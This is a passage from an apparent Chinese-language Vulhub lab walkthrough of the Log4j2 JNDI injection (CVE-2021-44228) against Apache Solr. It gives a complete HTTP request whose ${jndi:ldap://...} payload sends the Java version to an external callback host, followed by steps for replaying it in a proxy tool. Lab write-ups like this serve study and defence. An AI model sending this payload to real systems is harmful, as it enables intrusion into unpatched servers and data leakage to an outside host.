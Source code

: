 修改 URL，目标 IP，和端口

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com} HTTP/1.1
Host: centos.local:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

> 要先复制 payload 再在重放器中粘贴请求，顺序不能颠倒

`注意空格不能多也不能少。`

粘贴请求包至重放器

![粘贴请求包至重放器](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E7%B2%98%E8%B4%B4%E8%AF%B7%E6%B1%82%E5%8C%85%E8%87%B3%E9%87%8D%E6%94%BE%E5%99%A8.png)

对 ${ } 及其内容进行 URL 编码
